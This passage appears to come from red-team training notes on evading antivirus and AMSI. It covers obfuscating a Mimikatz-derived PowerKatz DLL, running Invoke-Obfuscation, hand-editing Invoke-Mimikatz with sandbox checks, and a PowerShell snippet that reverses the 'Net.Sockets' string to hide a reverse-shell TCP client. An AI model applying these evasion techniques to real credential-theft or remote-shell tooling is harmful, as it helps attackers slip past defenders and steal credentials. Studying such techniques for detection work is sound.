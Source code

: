 **How It Works:**

* Obfuscates DLLs (e.g., PowerKatz) by encrypting and encoding them.
* Converts the obfuscated payload into Base64 and reverses the string to bypass static detections.

**Usage:**

* Rebuild PowerKatz DLL from Mimikatz source.
* Use ProtectMyTooling to obfuscate the DLL.
* Convert the DLL to Base64 and reverse the string for further obfuscation.

**Steps:**

1. Rebuild and obfuscate the DLL with ProtectMyTooling.
2. Convert to Base64 and reverse the string.
3. Integrate the reversed string into the PowerShell script for execution.

### **Invoke-Obfuscation**

Invoke-Obfuscation is a tool for fully obfuscating PowerShell scripts, including AMSI bypasses, by randomizing and modifying strings, functions, and the overall script structure.

**How It Works:**

* Randomizes function names, strings, and syntax to avoid static signature detection.
* Useful for obfuscating AMSI bypass code and PowerShell payloads.

**Usage:**

```bash
Invoke-Obfuscation.ps1
```

**Example:**\
Use this tool to obfuscate scripts for AMSI bypass or for payloads like `Invoke-Mimikatz`.

### **Script Modification Examples**

#### **Invoke-Mimikatz**

Highly detected script. Requires significant modification to evade detection.

**Techniques:**

1. Remove all default comments.
2. Rename functions and variables (e.g., rename `DumpCreds` to `DC`).
3. Modify API calls (e.g., `VirtualProtect`, `WriteProcessMemory`).
4. Obfuscate PEBytes content using PowerKatz DLL and packers.
5. Implement reverse functions for PEBytes to bypass static detections.
6. Add sandbox checks to waste analysis resources (e.g., check for VMware or VirtualBox).

**Obfuscation Steps:**

1. Rename script and function names (e.g., `Invoke-Mimikatz` → `Invoke-Mimi`).
2. Modify variable names for detected API calls.
3. Obfuscate the PowerKatz DLL and integrate it into the script (Base64 encoded and reversed).
4. Remove warnings and errors related to PE file loading.

**Invoke-PowerShellTcp**

Avoid detection by reversing flagged strings in the script.

**Example:**

```powershell
$String = "stekcoS.teN"
$class = ([regex]::Matches($String,'.','RightToLeft') | ForEach {$_.value}) -join ''
$client = New-Object System.$class.TCPClient($IPAddress,$Port)
```
